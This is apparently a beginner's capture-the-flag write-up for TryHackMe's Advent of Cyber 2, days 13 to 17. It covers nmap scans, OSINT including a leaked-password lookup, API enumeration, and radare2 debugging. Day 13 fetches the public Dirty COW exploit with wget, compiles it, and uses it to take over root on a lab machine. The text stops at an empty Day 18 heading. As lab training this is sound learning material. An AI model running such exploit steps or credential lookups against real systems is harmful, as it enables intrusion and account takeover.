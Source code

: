 # [Advent of Cyber 2 [2020]](https://tryhackme.com/room/adventofcyber2)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 13: Coal for Christmas

scan the target

```
nmap -sS -sV -T4 10.10.22.125
```

![image](https://user-images.githubusercontent.com/90561566/222445181-223f51f0-5577-4723-92ea-b5e2d54c69cd.png)

telnet into the server, it also gives us the password

![image](https://user-images.githubusercontent.com/90561566/222445565-399e1120-7579-4ab7-9403-b902ba5b5020.png)

we have some infor here

![image](https://user-images.githubusercontent.com/90561566/222446673-60a84c7b-91cf-4c8a-92e7-268576e4c0e3.png)

quick research the file, you will found a version here

```
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```

transfer the file

![image](https://user-images.githubusercontent.com/90561566/222449024-13b9372a-8cf0-43ee-ab33-446d396b19b3.png)

run the file

```
gcc -pthread dirty.c -o dirty -lcrypt
```

![image](https://user-images.githubusercontent.com/90561566/222449198-2b06197c-57bc-414d-84c4-39635464a6d9.png)

we have changed password of an root's user

![image](https://user-images.githubusercontent.com/90561566/222449583-96b6909f-295c-476f-8713-df0c1376ac28.png)

there is an instruction for you

![image](https://user-images.githubusercontent.com/90561566/222449891-e6e847f8-077a-48de-83c5-d8e95690d12f.png)

```
touch coal
tree | md5sum
```

![image](https://user-images.githubusercontent.com/90561566/222450055-2de4cf16-d2d2-4c70-9e0b-937620be0c76.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459180-070864b2-ba15-4177-8bcc-c797b95871d4.png)

![image](https://user-images.githubusercontent.com/90561566/222459226-44c19abd-3fcd-4d45-94e4-02bc1033303e.png)

![image](https://user-images.githubusercontent.com/90561566/222459284-91e5153f-628b-4ef5-bd36-9f042d9bee2c.png)

![image](https://user-images.githubusercontent.com/90561566/222459539-0d9dbc52-dd86-436d-afef-0dc72c88031f.png)

## Day 14: Where's Rudolph?

search his username on google, i see 2 social accounts: twitter and reddit

![image](https://user-images.githubusercontent.com/90561566/222453488-5f7b6f64-18eb-47b5-a223-b9f2d2ce5ced.png)

in his reddit account, click tab comments

![image](https://user-images.githubusercontent.com/90561566/222452436-7b89398a-1d32-47ac-a0c2-dc0b8cf19b59.png)

search robert in google, you will found the next question

![image](https://user-images.githubusercontent.com/90561566/222453138-b534da7f-8391-4ac0-accd-25d4d11d89f4.png)

on his twitter, search for a tv show, it's bachelorette

![image](https://user-images.githubusercontent.com/90561566/222454717-afd87fea-fe18-4112-b34f-cc4f058b7769.png)

he has posted 2 images, on google image, you can find it's chicago

![image](https://user-images.githubusercontent.com/90561566/222455870-52d65996-9a0f-46ef-9d50-07af641e0867.png)

download the high resolution image and check for the exif infor

```
exiftool lights-festival-website.jpg
```

also in the exif data, they have a GPS Position and copyright infor contain our flag

search his email in scylla.sh, his password was reveal as spygame

Use the GPS Position we found earlier on openstreetmap, Look for the nearest Hotel: Chicago Marriott Downtown Magnificent Mile

![image](https://user-images.githubusercontent.com/90561566/222461664-bcd60506-be12-4de6-8a4d-8fbe93786ff4.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459653-6cea6b2b-e719-47b0-8522-d2079745acec.png)

![image](https://user-images.githubusercontent.com/90561566/222459699-ca29013c-cca1-4ed4-8f16-881c0f057d61.png)

## Day 15: There's a Python in my stocking!

Answer:

![image](https://user-images.githubusercontent.com/90561566/223003711-6e051157-8dfa-47dd-ab5a-a547fd42c981.png)

## Day 16: Help! Where is Santa?

scan the target

```
nmap -sS -sV -Pn -T4 10.10.167.235
```

![image](https://user-images.githubusercontent.com/90561566/223004718-fcee83a5-9a6d-424c-a998-9a8e7588b336.png)

view the webpage

![image](https://user-images.githubusercontent.com/90561566/223004863-4f0cc154-9714-444c-8906-a70ab04d1dfd.png)

just guessing, the api is in /api/

![image](https://user-images.githubusercontent.com/90561566/223005034-3bd10fd8-8ce4-4053-b861-45d56dee6061.png)

now, create a script python to solve the question

```
#! /usr/bin/env python
import requests
url = 'http://10.10.167.235/api/'

for i in range(1, 100, 2):
    r = requests.get(url + str(i))
    print(r.text)
```

![image](https://user-images.githubusercontent.com/90561566/223005618-965677ff-7860-46d0-827c-c3f6a0388116.png)

```
python3 script.py
```

![image](https://user-images.githubusercontent.com/90561566/223005728-f1f7cada-2165-4f1e-8e2e-4f1d0984547a.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/223005807-ae7a22f6-cba8-49f6-9564-795658b9f01f.png)

## Day 17: ReverseELFneering

ssh to the machine with given credentials

![image](https://user-images.githubusercontent.com/90561566/223635537-33646fca-8c03-416b-a3fe-5827da75ca26.png)

+ `db`: set a breakpoint
+ `dc`: move to next breakpoint
+ `ds`: move 1 line
+ `pdf @main`: again to see current point

analyst the program

```
r2 -d ./file1
aa
afl | grep main
```

![image](https://user-images.githubusercontent.com/90561566/223636831-f88f0eeb-68e5-4693-9431-bfeaf1de2614.png)

print the main function

```
pdf @main
```

![image](https://user-images.githubusercontent.com/90561566/223636991-87add459-e698-4f73-8e3c-a9fe3f583dac.png)

set a breakpoint and debug

```
db 0x00400b55
dc
px @rbp-0xc
```

![image](https://user-images.githubusercontent.com/90561566/223638692-7b0d1605-fb33-40d9-a139-982c14a90c51.png)

next and view again

```
ds
px @rbp-0xc
```

![image](https://user-images.githubusercontent.com/90561566/223638899-7516b65d-a0d2-453c-8cf2-86df538345e3.png)

next 4 lines and view other variable

```
ds
ds
ds
ds
px @rbp-0xb
```

back to our challenge

![image](https://user-images.githubusercontent.com/90561566/223647767-4791f146-2444-4bf4-8da8-490d1eb51aa2.png)

quick view, i can know that

+ `mov dword [local_ch], 1`: move local_ch to 1 (local_ch=1)
+ `mov dword [local_8h], 6`: move local_8h to 6 (local_8h=1)
+ `mov eax, dword [local_ch]`: move eax to local_ch (eax=1)
+ `imul eax, dword [local_8h]`: multiple eax with local_8h (eax=6)
+ `mov dword [local_4h], eax`: move local_4h to eax (local_4h=6)

To do that, you can read the instruction

```
leaq source, destination: this instruction sets destination to the address denoted by the expression in source
addq source, destination: destination = destination + source
subq source, destination: destination = destination - source
imulq source, destination: destination = destination * source
salq source, destination: destination = destination << source where << is the left bit shifting operator
sarq source, destination: destination = destination >> source where >> is the right bit shifting operator
xorq source, destination: destination = destination XOR source
andq source, destination: destination = destination & source
orq source, destination: destination = destination | source
```

Answer:

![image](https://user-images.githubusercontent.com/90561566/223648903-72a5d26d-2509-466f-a6f6-5535c967b3ed.png)

## Day 18: The Bits of Christmas










